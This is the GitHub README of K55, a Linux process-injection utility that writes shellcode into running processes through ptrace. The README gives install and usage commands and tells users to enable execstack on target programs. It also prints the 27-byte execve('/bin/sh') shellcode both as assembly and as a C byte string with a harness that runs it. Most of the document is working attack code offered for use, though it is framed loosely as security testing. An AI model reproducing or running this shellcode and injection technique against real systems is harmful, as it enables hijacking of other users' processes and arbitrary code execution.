 ## K55 - Linux x86_64 Process Injection Utility (C++11)

<p align="center">
  <img src="https://github.com/josh0xA/K55/blob/main/imgs/k55logo.png?raw=true">
</p>

<p align="center">
<a href="https://www.codacy.com/gh/josh0xA/K55/dashboard?utm_source=github.com&amp;utm_medium=referral&amp;utm_content=josh0xA/K55&amp;utm_campaign=Badge_Grade"><img src="https://app.codacy.com/project/badge/Grade/5601be2ff0bb47feae3090d098cec01f"/></a>
<a href="https://lbesson.mit-license.org/" target="_blank"><img src="https://img.shields.io/badge/License-MIT-blue.svg" alt="lisence" /></a>
</p>

## About K55
(pronounced: "kay fifty-five")<br/>
The K55 payload injection tool is used for injecting x86_64 shellcode payloads into running processes. The utility was developed using modern C++11 techniques as well as some traditional C linux functions like ``ptrace()``. The shellcode spawned in the target process is 27 bytes and it executes /bin/sh (spawns a bash shell) within the target's address space. In the future, I will allow users to input there own shellcode via command line arguments.<br/>

## Installation
1.  ``git clone https://github.com/josh0xA/K55.git``<br/>
2.  ``cd K55``<br/>
3.  ``chmod +x build-install.sh``<br/>
4.  ``./build-install.sh``<br/>

## K55 Usage
``Usage: ./K55 <process-name>``<br/>
- process-name can be any linux process with ``r-xp`` or ``execstack`` permissions. <br/>

### Tests
Test 1) In one terminal (K55/ Directory), run: ``./k55_example_process/k55_test_process``<br/>
Test 2) In another terminal, run the injector: ``sudo ./K55 k55_test_process``<br/>

## K55 In Action
- A shell is spawned in k55_test_process when the K55 shellcode injector is ran (as root).
### Injecting Into Given Process
<p align="center">
    <img src="https://github.com/josh0xA/K55/blob/main/imgs/injector_proof.png?raw=true">
</p>

### Shell Spawned In Target
<p align="center">
    <img src="https://github.com/josh0xA/K55/blob/main/imgs/target_proof1.png?raw=true">
</p>

## Limitations
Obviously, ``ptrace(PTRACE_POKETEXT...)`` calls are not the most disguised. So, some applications can limit the effect of K55. Although, for security testing, make sure to turn on ``execstack`` for your target applications. For example if I'm testing on gdb, before I would inject, I would run the following: ``sudo execstack -s /usr/bin/gdb``. Install execstack from your distrobutions package manager. For Arch Linux users, you can find execstack on the AUR.

## Crafting The Shell Payload
Note: The following is a demonstration. The payload string is already hardcoded into K55.

### Assembly Implementation of The Payload ([Cited from shell-storm (redirect)](http://shell-storm.org/shellcode/files/shellcode-806.php))
```asm
main:
    xor eax, eax
    mov rbx, 0xFF978CD091969DD1
    neg rbx
    push rbx
    push rsp
    pop rdi
    cdq
    push rdx
    push rdi
    push rsp
    pop rsi
    mov al, 0x3b
    syscall
```
#### C-Implementation of The Payload
```c
#include <stdio.h>
#include <string.h>

// Shellcode breakdown of the assembly code.
char code[] = "\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05";

int main()
{
    printf("len:%d bytes\n", strlen(code));
    (*(void(*)()) code)();
    return 0;
}

```
## References
http://shell-storm.org/shellcode/files/shellcode-806.php <br/>
https://0x00sec.org/t/linux-infecting-running-processes/1097 <br/>

## License
MIT License <br/>
Copyright (c) Josh Schiavone
